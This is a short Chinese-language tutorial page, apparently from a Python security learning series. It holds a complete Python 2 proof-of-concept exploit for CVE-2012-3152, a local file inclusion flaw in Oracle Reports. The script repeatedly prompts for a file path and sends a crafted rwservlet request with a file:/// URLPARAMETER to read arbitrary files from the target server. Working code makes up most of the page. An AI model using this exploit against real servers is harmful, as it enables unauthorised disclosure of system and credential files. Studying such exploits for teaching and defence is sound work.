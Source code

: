 # CVE-2012-3152


---

这一小段代码是演示的CVE-2012-3152 Oracle本地文件包含的漏洞利用PoC,与前一个PoC示例有点类似，也是通过循环可以无限输入需要访问文件目录。对于下面这一段脚本无前面有点不同。增加了一点交互性的东西。通过[termcolor](https://pypi.python.org/packages/source/t/termcolor/termcolor-1.1.0.tar.gz)模块来实现:

```
#!/usr/bin/python
import sys, urllib2    # 导入需要的包
from termcolor import colored   # 这里需要下载"termcolor"模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确"<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的URL
print "[+] Attempting CVE-2012-3152 - Oracle Reports LFI"

while True:        #  循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  resource=raw_input(colored("~$ ", "red"))
  req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'+resource+'"'
  try:                    # 使用Try/Except处理响应信息
    response=urllib2.urlopen(URL+req)
    # 发起请求并且显示响应内容
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e
```
  ![oracle](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/img/0x15.png)
